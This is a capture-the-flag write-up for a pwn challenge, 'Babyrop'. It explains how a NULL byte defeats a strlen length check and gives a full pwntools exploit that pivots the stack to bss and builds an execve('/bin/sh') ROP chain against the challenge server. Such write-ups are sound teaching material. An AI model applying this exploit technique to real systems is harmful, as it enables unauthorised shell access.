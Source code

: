 ```yaml
---
date: '2025-07-08T00:25:41+05:30'
draft: false
title: 'Babyrop'
tags:
- pwn
- rop
- stack-pivot
- angrop
---
```


Using strlen on binary data is the definition of insanity.

Limited inital ropchain => pivot stack to bss for unlimited control.

<!--more-->

## Enumeration

### checksec

No pie, unstripped binary. Thank god :pray:.

![checksec](images/checksec.png)

### `input` function

1. Reads binary input until newline charecter into stack buffer.
2. Checks length of binary input using `strlen`
3. If length is less than supplied length, copies reads the whole binary input into param1


### First crash

Since length of binary buffer is calculated using `strlen()`, we can control it.

We can write buffer of any size by prefixing payload with a NULL byte.

For the payload

`b"\x00" + b"AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFA"`

program crashes with offset = 55, and we can control 9 QWORDs in the stack.

![stack](images/stack.png)

Hence, our initial ropchain can take max 9 QWORDS of stack space.

### Automated ropchain

Try using [ropper](https://github.com/sashs/Ropper) to generate execve ropchain, but unfortunately it's too long to be written (we only control 9 QWORDs).

Hence, we need to trigger another write to a different location. I chose the `bss` section, as it was reasonably large.


## Exploit

1. Trigger buffer overflow
2. Send ropchain that calls input(`bss_start`, 0x200).
3. Write execve ropchain to `bss_start`.
4. Pivot stack to `bss_start`


![exploit](images/exploit.png)


```py
from pwn import *

exe = context.binary = ELF(args.EXE or "main")


def start(argv=[], *a, **kw):
    """Start the exploit against the target."""
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)


gdbscript = """
break *main+141
break *0x0000000000436E85
# break *input+0x131
# break *read+30
# break *__memchr_avx2+53
continue
""".format(
    **locals()
)


padding = b"\x00" + b"AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAAS"

bss_start = 0x004A9AA0

chain = b""
chain += p64(0x41F527)  # pop rdi; add rax, rdi; vzeroupper ; ret
chain += p64(bss_start)
chain += p64(0x403D5A)  # pop rsi; pop rbp; ret
chain += p64(0x200)
chain += p64(0x0)
chain += p64(0x402F66)  # input
chain += p64(0x0000000000436E85)  # pop rsp; ret;
chain += p64(0x4A9AB0)

io = remote("chal.78727867.xyz", 34000)
io.sendline(padding + chain)
io.recvuntil(b"Hello, ")


execve_chain = b""
execve_chain += p64(0x41F527)  # pop rdi; add rax, rdi; vzeroupper ; ret
execve_chain += p64(0x4A9AA8)
execve_chain += p64(0x44A8B5)  # pop rdx; bsf eax, eax; add rax, rdi; vzeroupper ; ret
execve_chain += p64(0x0)
execve_chain += p64(0x4297C3)  # pop rax; ret
execve_chain += p64(0x3B)
execve_chain += p64(0x44426B)  # pop rsi; pop rbp; mov rcx, rax; mov rax, rcx; ret
execve_chain += p64(0x0)
execve_chain += p64(0x0)
execve_chain += p64(0x412746)  # syscall
execve_chain += p64(0x41A93F)  # vzeroupper ; ret

io.sendline(
    flat(
        b"\x00" + b"A" * 7,
        b"/bin/sh\x00",
        execve_chain,
    )
)


io.interactive()

```

## Flag

`NHNC{a_rop_challenge_which_LemonTea_can_solve_and_i_wanna_sleep_lemontea_u_sucker_6f325c6517bd7789}`
